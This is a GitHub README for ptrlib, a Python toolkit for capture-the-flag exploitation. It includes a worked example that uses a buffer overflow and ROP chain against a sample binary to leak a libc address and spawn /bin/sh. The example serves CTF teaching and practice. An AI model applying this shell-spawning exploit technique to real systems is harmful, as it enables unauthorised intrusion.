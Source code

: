 ptrlib
====

![Python application](https://github.com/ptr-yudai/ptrlib/workflows/Python%20application/badge.svg)

Python library which bundles security-related utilities.

## Description
Ptrlib is a Python library for CTF players.
It's designed to make it easy to write a complex program of cryptography, networking, exploit and so on.

## Why not pwntools?
Ptrlib is designed to be as library-independent as possible.
Also, ptrlib has some pros such as supporting Windows process.

## Requirements
Supports: Python 3.5 or later

Library Dependency:
- pycryptodome
- pywin32 (when handling Windows process)

External Program:
- When using `SSH` function:
  - ssh
  - expect
- When using `nasm` function:
  - nasm

## Usage
Basic examples are available at [/examples](https://github.com/ptr-yudai/ptrlib/src/master/examples/).

Testcases under [/tests](https://github.com/ptr-yudai/ptrlib/src/master/tests/) may also help you understand ptrlib.

## Quick Document
There are many functions in ptrlib.
In this section we try using it for a pwnable task.

You can run executable or create socket like this:
```python
sock = Process("./pwn01")
sock = Process(["./pwn01", "--debug"])
sock = Socket("localhost", 1234)
sock = SSH("example.com", 22, username="ubuntu", password="p4s$w0rd")
sock = SSH("example.com", 22, username="ubuntu", identity="./id_rsa")
```

If you have the target binary or libc, it's recommended to load them first.
```python
elf = ELF("./pwn01")
libc = ELF("./libc.so.6")
```
This doesn't fully analyse the binary so that it runs fast.
Also, ELF class supports cache to reduce calculation.

You can use some useful methods such as `got`, `plt`, `symbol`, `section` and so on.
The following is an example to craft ROP stager.
```python
# ROP chain
addr_stage2 = elf.section(".bss") + 0x400

payload = b'A' * 0x108
payload += flat([
  # puts(puts@got)
  next(elf.gadgets("pop rdi; ret;")),
  elf.got("puts"),
  elf.plt("puts"),
  # gets(stage2)
  next(elf.gadgets("pop rdi; ret;")),
  addr_stage2,
  elf.plt("gets"),
  # stack pivot
  next(elf.gadgets("pop rbp; ret;")),
  addr_stage2,
  rop_leave_ret
], map=p64)
sock.sendlineafter("Data: ", payload)

# Leak libc address
libc_base = u64(sock.recvline()) - libc.symbol("puts")
logger.info("libc base = " + hex(libc_base))
libc.base = libc_base

payload  = b'A' * 8
paylaod += p64(rop_pop_rdi)
payload += p64(next(libc.search("/bin/sh")))
payload += p64(libc.symbol("system"))
sock.sendline(payload)

sock.interactive()
```

## Install
Run `pip install ptrlib` or `python setup.py install`.

## Licence

[MIT](https://github.com/tcnksm/tool/blob/master/LICENCE)

## Author

[ptr-yudai](https://github.com/ptr-yudai)

## Contributor
Feel free to make a pull request / issue :)

- [theoremoon](https://github.com/theoremoon)
  - Added/fixed several cryptography functions
  - Added buffering of Socket/Process
  - Added status check (CI test)
- [keymoon](https://github.com/key-moon)
  - Added algorithm package
